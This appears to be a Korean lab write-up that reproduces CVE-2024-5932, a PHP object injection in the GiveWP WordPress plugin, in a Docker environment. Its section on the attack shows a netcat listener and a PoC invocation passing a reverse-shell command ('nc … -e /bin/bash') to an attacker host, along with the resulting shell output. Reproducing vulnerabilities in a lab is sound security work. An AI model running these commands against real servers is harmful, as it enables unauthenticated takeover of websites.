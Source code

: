 # CVE-2024-5932: GiveWP 플러그인 Unauthenticated PHP Object Injection (PoC)

## 1. 개요
이 리포트는 WordPress의 GiveWP 플러그인(3.14.1 버전 이하)에서 발생한 PHP Object Injection 취약점(CVE-2024-5932)을 Docker 환경에서 재현한 과정을 다룹니다.
Dockerfile과 docker-compose.yaml을 이용하여 WordPress 서버 및 취약한 플러그인 환경을 구축하고, 공개된 PoC 스크립트를 통해 리버스쉘 획득을 시도하였습니다.

### 취약점 발생 원인
CVE-2024-5932는 WordPress GiveWP 플러그인 내 일부 입력값에 대해 검증이 부재하여, 악의적인 직렬화 데이터를 역직렬화할 수 있었던 것이 원인입니다.  
특히, `give_title` 파라미터를 통한 역직렬화 과정에서 필터링이 충분히 이뤄지지 않아 PHP Object Injection 취약점이 발생하였습니다.


## 2. 환경 구축 방법
Docker와 docker-compose를 이용하여 WordPress와 MariaDB 환경을 구축하였습니다.

### 사용한 이미지
- wordpress:latest
- mariadb:10.5

### Docker-compose.yml 주요 설정
```yaml
version: '3'

services:
  db:
    image: mariadb:10.5
    restart: always
    environment:
      MYSQL_DATABASE: wordpress
      MYSQL_USER: wordpress
      MYSQL_PASSWORD: wordpress
      MYSQL_ROOT_PASSWORD: wordpress
    ports:
      - "3306:3306"

  wordpress:
    image: wordpress:latest
    restart: always
    ports:
      - "8000:80"
    environment:
      WORDPRESS_DB_HOST: db:3306
      WORDPRESS_DB_USER: wordpress
      WORDPRESS_DB_PASSWORD: wordpress
      WORDPRESS_DB_NAME: wordpress
    depends_on:
      - db
```

### 구축 방법
우분투 환경에서 아래 명령어로 컨테이너를 올립니다.
```bash
docker-compose up -d
```


## 3. 취약점 재현 (PoC)

### 공격자 및 피해자 환경
- 공격자 머신: Kali Linux
- 피해자 서버: Ubuntu 서버에 Docker로 구축된 WordPress + GiveWP 3.14.1

### 공격 준비
공격자 환경(Kali)에서 리버스쉘을 받을 준비를 합니다.

```bash
nc -lvnp 7777
```

### PoC 스크립트 실행
공격자는 PoC 스크립트를 사용하여 피해자 서버의 취약점을 이용합니다.
```bash
python3 CVE-2024-5932-rce.py -u "http://[피해자서버IP]:8000/donations/test-donation/" -c "nc [공격자IP] 7777 -e /bin/bash"
```
    [피해자서버IP] = Ubuntu 서버 IP (예: 192.168.0.50)
    [공격자IP] = Kali 머신 IP 
    
### 공격 결과
PoC 스크립트를 실행하면, 공격자 머신에서 아래와 같이 리버스쉘이 연결됩니다.
```bash
Ncat: Connection from 192.168.0.50.
Ncat: Connection from 192.168.0.50:50234.
whoami
www-data
```
리버스쉘이 정상적으로 획득되었고, 피해자 서버의 웹서버 권한(www-data)으로 명령어 실행이 가능합니다.


## 4. 시연 캡처 (Screenshots)

### 4.1 서버 구성
- WordPress 설치 완료 화면
  ![wordpress_install](images/01_wordpress_install.png)

- GiveWP 플러그인 업로드 화면
  ![plugin_upload](images/02_plugin_upload.png)

- GiveWP 플러그인 활성화 화면
  ![plugin_activate](images/03_plugin_activate.png)

- WordPress URL 설정 변경 화면
  ![url_setting1](images/04_url_setting1.png)
  ![url_setting2](images/05_url_setting2.png)

- 도네이션 폼 생성 완료 화면
  ![donation_form_create](images/06_donation_form_create.png)

### 4.2 공격

- 공격자(Kali) nc 대기 화면
  ![nc_listen](images/07_nc_listen.png)

- PoC 스크립트 실행 화면
  ![poc_attack1](images/08_poc_attack1.png)
  ![poc_attack2](images/09_poc_attack2.png)

- 리버스쉘 연결 성공 화면
  ![reverse_shell_success1](images/10_reverse_shell_success1.png)
  ![reverse_shell_success2](images/11_reverse_shell_success2.png)


## 5. 마무리

### 문제 및 해결 과정
- 초기에는 워드프레스 컨테이너에서 업로드 파일 크기 제한 때문에 취약한 플러그인(GiveWP 3.14.1)을 설치할 수 없었습니다.  
  ➔ php.ini 파일을 직접 생성 및 수정하여 업로드 제한을 늘려 문제를 해결하였습니다.

- 공격자 PoC 실행 시 연결 실패 문제가 발생했습니다.  
  ➔ 원인은 피해자 컨테이너 내부에 netcat이 설치되어 있지 않았던 것이었고, apt를 통해 netcat-traditional을 설치하여 해결했습니다.

- 리버스쉘 연결 시 IP 주소 및 포트 설정 실수가 있었습니다.  
  ➔ PoC 스크립트의 대상 URL 및 명령어를 수정하여 성공적으로 리버스쉘을 획득했습니다.

### 취약점의 심각성
CVE-2024-5932를 악용할 경우, 인증 없이 원격에서 임의 코드를 실행하거나, 서버 내 주요 파일(예: wp-config.php)을 삭제할 수 있습니다.  
이는 WordPress 전체 사이트 장악 및 데이터 탈취, 서버 자원 악용(예: 암호화폐 채굴) 등 심각한 결과로 이어질 수 있습니다.

### 최종 결론
Docker를 이용해 취약한 WordPress 환경을 구축하고, CVE-2024-5932에 대한 PoC 공격을 성공적으로 수행하였습니다.  
환경 구축, 취약점 재현, 문제 해결 과정을 통해 실전 상황에서 취약점 분석과 실습 환경 구축 능력을 향상시킬 수 있었습니다.
